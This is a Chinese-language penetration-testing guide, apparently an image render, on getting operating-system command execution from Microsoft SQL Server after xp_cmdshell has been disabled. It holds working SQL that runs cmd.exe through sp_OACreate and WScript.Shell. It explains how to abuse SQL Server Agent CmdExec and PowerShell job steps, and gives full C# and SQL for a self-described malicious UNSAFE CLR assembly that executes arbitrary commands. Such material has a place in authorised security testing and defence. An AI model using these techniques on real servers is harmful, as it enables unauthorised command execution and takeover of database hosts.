### MSSQL 的 xp_cmdshell() 函数被禁用怎么绕过

**1. 利用其他扩展存储过程**

MSSQL 中还有一些其他的扩展存储过程，它们可能没有 `xp_cmdshell` 那么直接，但仍然可以用于执行命令或读写文件

- **`sp_OACreate` (OLE Automation Procedures)**: 这个过程通常用于创建 COM 对象，但如果你能找到合适的 COM 对象，比如 `WScript.Shell`，就可以利用它来执行命令

  **示例代码:**

  ```sql
  DECLARE @shell INT;
  EXEC sp_OACreate 'WScript.Shell', @shell OUT;
  EXEC sp_OAMethod @shell, 'run', NULL, 'cmd.exe /c whoami > C:\temp\output.txt';
  -- 之后你可以读取 output.txt 来获取结果
  ```

  **注意:** 这种方法依赖于是否启用了 OLE Automation Procedures，并且需要寻找可以被利用的 COM 对象

**2. SQL Server Agent Jobs**

如果 SQL Server Agent 服务正在运行，并且你拥有创建作业的权限，你可以创建一个新的 Agent Job，并在其中执行 PowerShell 或命令行脚本

- **创建作业 (Job)**: 创建一个 SQL Agent Job，步骤类型 (Step Type) 选择 **`Operating system (CmdExec)`** 或 **`PowerShell`**
- **编写脚本**: 在步骤中直接写入你要执行的命令
- **启动作业**: 启动该作业，命令就会在 SQL Server Agent 的权限下执行

这种方法的好处是，即使 `xp_cmdshell` 被禁用，Agent Job 依然可以运行。但前提是，你有权限创建并执行作业

**3. CLR Assembly**

SQL Server 提供了 CLR (Common Language Runtime) 集成功能，允许你在数据库中运行 .NET 代码。如果你可以创建一个恶意的 CLR Assembly，并在其中编写执行命令的代码，就可以绕过 `xp_cmdshell`

- **启用 CLR**:

  ```sql
  EXEC sp_configure 'clr enabled', 1;
  RECONFIGURE;
  ```

- **创建并部署 Assembly**: 编写一个 C# 代码，使用 `System.Diagnostics.Process` 类来执行命令，然后将其编译成 DLL，并上传到数据库

- **创建存储过程**: 创建一个 SQL 存储过程来调用这个 Assembly 中的方法

  **C# 代码示例:**

  ```c#
  using System;
  using System.Diagnostics;
  using System.Data.SqlClient;
  using Microsoft.SqlServer.Server;
  
  public class StoredProcedures
  {
      [SqlProcedure]
      public static void CmdExec(string command)
      {
          Process.Start("cmd.exe", "/c " + command);
      }
  }
  ```

  **SQL Server 端:**

  ```sql
  -- 创建 Assembly
  CREATE ASSEMBLY CommandExec FROM 'C:\path\to\YourAssembly.dll' WITH PERMISSION_SET = UNSAFE;
  
  -- 创建存储过程
  CREATE PROCEDURE sp_CmdExec @command NVARCHAR(4000) AS
  EXTERNAL NAME [YourAssembly].[StoredProcedures].[CmdExec];
  
  -- 执行
  EXEC sp_CmdExec 'whoami';
  ```

  **注意:** CLR Assembly 功能通常是默认禁用的，并且创建 UNSAFE 权限集的 Assembly 需要 `sysadmin` 权限